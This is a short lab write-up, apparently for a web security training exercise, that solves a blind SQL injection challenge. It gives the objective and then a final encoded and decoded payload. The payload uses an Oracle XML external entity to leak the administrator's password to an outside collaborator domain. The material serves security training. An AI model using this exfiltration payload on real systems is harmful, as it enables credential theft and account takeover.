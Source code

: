 # Blind SQL injection with out-of-band data exfiltration
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.\
\
The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.\
\
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.\
\
To solve the lab, log in as the administrator user.

# Solution

|![](Images/image-43.png)|
|:--:| 
| *Modification of cookie value* |
|![](Images/image-44.png)|
| *Data exfiltration - administrator's password* |

Final payload:
```
Encoded: 20UNION%20SELECT%20EXTRACTVALUE(xmltype('%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%3f%3e%3c!DOCTYPE%20root%20%5b%20%3c!ENTITY%20%25%20remote%20SYSTEM%20%22http%3a%2f%2f'%7c%7c(SELECT%20password%20from%20users%20where%20username%3d'administrator')%7c%7c'.b7jxrq2gcya32c93zz4230q0lrriff34.oastify.com%2f%22%3e%20%25remote%3b%5d%3e')%2c'%2fl')%20FROM%20dual--; 

Decoded: 20UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.b7jxrq2gcya32c93zz4230q0lrriff34.oastify.com/"> %remote;]>'),'/l') FROM dual--; 
```
